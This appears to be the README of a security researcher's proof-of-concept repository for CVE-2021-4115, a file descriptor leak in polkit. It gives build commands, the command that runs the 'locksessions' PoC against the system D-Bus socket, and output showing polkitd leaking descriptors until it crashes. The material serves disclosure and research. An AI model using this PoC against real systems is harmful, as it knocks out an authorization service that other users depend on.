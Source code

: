 # CVE-2021-4115 (GHSL-2021-077)

This repository contains a proof of concept exploit for
[CVE-2021-4115](https://gitlab.freedesktop.org/polkit/polkit/-/issues/141):
file descriptor exhaustion in
[polkit](https://gitlab.freedesktop.org/polkit/polkit).

# Build

Instructions for building the PoC:

```bash
git submodule update --init  # Download https://github.com/kevinbackhouse/DBusParse
mkdir build
cd build
cmake ..
make
```

# Running

The PoC causes polkit to leak eventfd file descriptors. After several runs
of the PoC, polkit will leak so many file descriptors that it will crash
due to exceeding its quota of file descriptors.

First, check how many file descriptors polkit has open:

```bash
$ sudo ls -l /proc/`pidof polkitd`/fd | wc
     12     123     680
```

Now run the PoC:

```bash
./locksessions /var/run/dbus/system_bus_socket 0x4000
```

(The PoC is named locksessions because it calls the
org.freedesktop.login1.Manager.LockSessions D-Bus method.)

Now check again how many file descriptors polkit has open:

```
$ sudo ls -l /proc/`pidof polkitd`/fd | wc
    255    2796   16872
```

Notice that a large number of eventfd file descriptors have been
leaked. After few more runs of the PoC, polkit will most likely
crash.
